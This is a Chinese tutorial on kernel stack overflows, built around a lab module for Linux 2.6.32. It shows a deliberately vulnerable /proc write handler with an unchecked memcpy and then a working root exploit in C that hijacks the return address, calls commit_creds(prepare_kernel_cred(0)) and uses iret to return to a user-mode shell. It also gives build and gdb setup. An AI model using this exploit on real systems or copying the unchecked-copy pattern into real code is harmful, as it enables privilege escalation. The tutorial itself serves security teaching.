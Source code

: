# how2kernel————第三节stack_smashing

## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>无论是kernel态还是用户态都存在栈溢出，这也是漏洞中十分经典的一种。原理都是一样的，没有对缓冲区的大小进行检查，溢出覆盖至返回地址就可以劫持程序流程控制之。因为有了前两节的铺垫了理解这个应该不会难，先来看漏洞代码：</font></br>

```C
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

int bug2_write(struct file *file, const char *buf, unsigned long len)
{
    char localbuf[8];
    memcpy(localbuf, buf, len);
    return len;
}

static int __init stack_smashing_init(void)
{
    printk(KERN_ALERT "stack_smashing driver init!\n");
    create_proc_entry("bug2", 0666, 0)->write_proc = bug2_write;
    return 0;
}

static void __exit stack_smashing_exit(void)
{
    printk(KERN_ALERT "stack_smashing driver exit!\n");
}

module_init(stack_smashing_init);
module_exit(stack_smashing_exit);
```

**poc**

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

int main()
{
    char buf[24] = {0};
    memset(buf, 'A', 24);
    *((void **)(buf + 20)) = 0x42424242;
    int fd = open("/proc/bug2", O_WRONLY);
    write(fd, buf, sizeof(buf));
    return 0;
}

```



**Makefile**

```makefile
obj-m := stack_smashing.o  

KERNELDR := /home/fanda/Desktop/file/linux-2.6.32.1
BUSYDIR  := /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest
PWD := $(shell pwd)  

modules:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules  
	gcc -o poc poc.c -static
	rm $(BUSYDIR)/*.ko
	cp *.ko $(BUSYDIR)
	cp poc $(BUSYDIR)
	cd $(BUSYDIR)/../ && find . | cpio -o --format=newc > ../rootfs.img
clean:  
	rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>用boot.sh启动qemu之后，直接执行poc可以发现eip最后地址为0x42424242（如果不行的话应该是开了STACKPROTECTOR，编辑linux kernel目录下的.config文件，注释掉重新make一下就行了），偏移可以根据调试得到，函数ret末尾的汇编如下：</font></br>

```assembly
   0xc883001e <bug2_write+30>    je     bug2_write+34 <0xc8830022>
    ↓
   0xc8830022 <bug2_write+34>    add    esp, 8
   0xc8830025 <bug2_write+37>    pop    esi
   0xc8830026 <bug2_write+38>    pop    edi
   0xc8830027 <bug2_write+39>    pop    ebp
 ► 0xc8830028 <bug2_write+40>    ret    <0x8048ea2>

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以最后需要填充的大小为8（add esp,8）+4（pop esi）+4（pop edi）+4（pop ebp）=20，随后的一个4就会被ret放入eip返回，成功劫持流程。知道了如何劫持流程之后我们很轻松的用commit_creds(prepare_kernel_cred(0))提权，但难处就在于如何返回一个用户层的shell（我们不能在kernel态直接执行用户层的代码'system("/bin/sh");'来getshell）。这里我们就用到了ROP，ROP是栈溢出中一个非常经典的技术，在这道题中我们可以自己编写ROP。所以我们的步骤是：</font></br>

- 构造好trap_frame结构；
- 控制eip到ROP跳板指令上；
- 用ROP指令返回到用户层的system("/bin/sh")。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>那么问题来了，trap_frame结构是什么？在Linux中，程序执行时从kernel态返回到用户态时要执行一个“iret”指令，这个指令可以理解为“ret”指令的升级版。对于“ret”指令来说，可以理解为就是一个简单的“pop eip”，而“iret”指令相当于把栈上的trap_frame结构一个一个pop给相应的寄存器，这个trap_frame结构如下表示：</font></br>

```C
struct trap_frame {
    void *eip;       // instruction pointer +0
    uint32_t cs;     // code segment +4
    uint32_t eflags; // CPU flags +8
    void *esp;       // stack pointer +12
    uint32_t ss;     // stack segment +16
} __attribute__((packed));
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这个\_\_attributu\_\_((packed))是GNU C的一大特点，这个声明了struct采用紧缩型结构，也就是不存在对齐行为。里面的变量有多大，这个struct结构体就有多大。现在我们明白了内核态的栈上有这么一个东西后就可以开始着手构造exploit了：</font></br>

- 构造trap_frame结构，设置其中的eip为system("/bin/sh")；
- 控制内核态中的eip执行提权指令后执行ROP指令
- ROP指令为设置esp为构造的trap_frame地址后用iret返回
- getshell

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以最终我们的poc如下：</font></br>

**poc**

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

struct trap_frame {
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));

struct trap_frame tf;

void get_shell(void)
{
    execl("/bin/sh", "sh", NULL);
}

void init_tf_work(void)
{
    asm("pushl %cs; popl tf+4;" // set cs
        "pushfl; popl tf+8;" // set eflags
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &get_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void *(*prepare_kernel_cred)(void *) KERNCALL = (void *) 0xc1067b20;
void *(*commit_creds)(void *) KERNCALL = (void *) 0xc1067980;

void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf, %esp;"
        "iret;");
}

int main(void)
{
    char buf[24];
    memset(buf, 'A', 24);
    *((void **)(buf+20)) = &payload; // set eip to payload
    init_tf_work();
    int fd = open("/proc/bug2", O_WRONLY);
    // exploit
    write(fd, buf, sizeof(buf));
    return 0;
}

```

## 附录

**remote gdb**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>gdbscript稍加更改就可以用了，同样使用cat /proc/modules查看模块的基地址。提权函数的地址可以使用grep prepare_kernel_cred /proc/kallsyms得到。我的gdbscript如下：</font></br>

```shell
file /home/fanda/Desktop/file/linux-2.6.32.1/vmlinux
add-symbol-file /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest/stack_smashing.ko  0xc8830000
target remote :1234
b bug2_write
c
```

**makeuser**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>创建用户，安装模块啥的用上一节的makeuser.sh就行了。</font></br>